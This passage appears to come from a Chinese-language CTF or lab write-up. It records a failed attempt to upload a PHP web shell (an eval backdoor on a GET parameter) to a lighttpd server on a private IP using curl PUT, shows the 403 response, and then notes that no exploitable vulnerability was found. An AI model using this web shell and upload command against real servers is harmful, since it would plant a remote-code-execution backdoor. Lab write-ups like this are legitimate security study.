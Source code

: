 这里觉得可能是因为`curl`默认`HTTP1.1`：

```shell
curl -v -X PUT -d '<?php @eval($_GET["hack"]);?>' http://192.168.244.183/test/webshell.php -0
```

还是不行：

```shell
*   Trying 192.168.244.183:80...
* Connected to 192.168.244.183 (192.168.244.183) port 80
> PUT /test/webshell.php HTTP/1.0
> Host: 192.168.244.183
> User-Agent: curl/8.5.0
> Accept: */*
> Content-Length: 29
> Content-Type: application/x-www-form-urlencoded
> 
* HTTP 1.0, assume close after body
< HTTP/1.0 403 Forbidden
< Content-Type: text/html
< Content-Length: 345
< Connection: close
< Date: Tue, 06 Feb 2024 16:52:35 GMT
< Server: lighttpd/1.4.28
< 
<?xml version="1.0" encoding="iso-8859-1"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
         "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
 <head>
  <title>403 - Forbidden</title>
 </head>
 <body>
  <h1>403 - Forbidden</h1>
 </body>
</html>
* Closing connection
```

不知道为啥，直接抓包进行尝试把：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402071320661.png" alt="image-20240207114331521" style="zoom:50%;" />

6，真不知道错在哪里了。。。

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402071320662.png" alt="image-20240207114954782" style="zoom:50%;" />

### 尝试其他漏洞吧

未发现可以利用的漏洞。。。。

## 额外收获
